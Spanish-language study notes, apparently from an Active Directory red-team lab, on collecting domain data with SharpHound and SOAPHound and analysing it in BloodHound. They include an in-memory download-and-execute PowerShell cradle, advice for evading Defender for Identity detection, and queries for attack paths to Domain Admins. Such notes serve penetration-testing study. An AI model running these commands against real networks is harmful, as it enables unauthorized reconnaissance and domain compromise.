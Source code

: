# BloodHound 

Tags: #AD #BloodHound #SharpHound #SOAPHound 

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell 
❯ Import-Module .\SharpHound.ps1       # Importar el modulo, tambien se puede hacer con el '.exe'

❯ Invoke-BloodHound -CollectionMethod All
```

```powershell
# Importar el modulo en memoria
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All      # Recolectar la data 

# Suministrar datos a BloodHound 
❯ C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SharpHound.exe -args --collectionmethods All   

# Para hacer una recolección sigilosa, remover métodos ruidosos de recolección como RDP,DCOM, PSRemote y LocalAdmin
❯ C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs 

Notas:
	1. Usar 'Excludedcs' para evitar la detección MDI
	2. Remover 'CertServices collection' cuando se use BloodHound Legacy 
```

## SOAPHound 

* [SOAPHound](https://github.com/FalconForceTeam/SOAPHound)

```powershell 
SOAPHound es más sigiloso. El se comunica con Active Directory Web Services (ADWS - Puerto 9389) en lugar de enviar peticiones LDAP como lo haría el AD Module
	- Casi ninguna detección basada en la red  (MDI)
	- Recupera info sobre todos los objetos (objectGuid=*) y sus procesos. Esos significa peticiones limitadas a LDAP - Menos posobilidad de detección en puntos finales 


# Construir un cache que contiene info básica de los objetos de dominio  
❯ SOAPHound.exe --buildcache -c C:\AD\Tools\cache.txt   

# Recolectar data compatible con BloodHound 
❯ SOAPHound.exe -c C:\AD\Tools\cache.txt --bhdump -o C:\AD\Tools\bloodhound-output --nolaps  
```

## BloodHound Community Edition 

* [Bloodhound-Community-Install](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart)

```powershell
❯ sudo docker-compose -f docker-compose.yml up -d   # Iniciar BloodHound con Docker despues de reiniciar Kali
❯ sudo docker-compose -f docker-compose.yml down    # Apagar BloodHound 
❯ bloodhound-cli resetpwd                           # Resetear la password 

❯ http://127.0.0.1:8080/ui/login         # Ingresar a BloodHound Community por la web               

Notas: 
	1. Si es la primera vez que sehace mirar el enlace de instalación y seguir las instrucciones  
	2. La instalción es por Docker por lo que al iniciar el sistema se debe de volver a iniciar 'BloodHound'
```

```bash  
Enumerar lo siguiente en BloodHound usando la pestaña de 'CYPHER':
	1. 'All Domain Admins'
	2. 'Map domains trusts'
	3. 'Principal with DCSync privileges'
	4. 'All Kerberoastable users'
	5. 'AS-REP Roastable users (DontReqPreAuth)'
	6. 'Shortest paths to Domain Admins'
	7. 'Unsconstrained Delegation'


Una vez obtenido un usuario:
	1. Agregar la opción 'Mark User as Owned'
		- Seleccionar el usuario y dar click en 'Inbound Object Control' para mostrar quien tiene control sobre el objeto seleccionado 
		- Seleccionar el usuario y dar click en 'Outbound Object Control' para mostrar sobre que objetos tiene control el usuario comprometido 
```